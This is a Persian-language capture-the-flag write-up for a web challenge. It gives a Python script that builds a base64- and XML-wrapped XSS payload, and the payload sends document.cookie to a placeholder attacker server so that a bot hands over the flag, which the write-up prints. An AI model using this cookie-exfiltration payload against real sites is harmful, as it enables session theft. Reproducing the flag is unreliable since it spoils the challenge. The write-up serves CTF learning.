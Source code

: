 </center>

برای حل این سوال میتونین از کد زیر استفاده کنین

```python
import requests
import base64
import sys
import html

url = 'https://b64.spchallenge.ir/'

xss_pay = """window.location='https://REDACTED?flag=' + document.cookie"""
pa = "?buf=%s&ct=%s" % (base64.b64encode(xss_pay.encode()).decode(), "application/ecmascript")
p = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="%s"></_:script>""" % html.escape(pa)


buffer, ct = base64.b64encode(p.encode()).decode(), "text/xml"
d = requests.get(url, params={'buf':buffer, 'ct': ct})
print(d.url)
```

به جای REDACTED از آدرس سرور خودتون استفاده کنین و بعد از اجرای کد بالا بهتون یه آدرس میده که اون رو میتونین بدین به بات تا فلگ رو براتون بفرسته

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{9a952b93a0f0ad23304547c4de2025fb}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵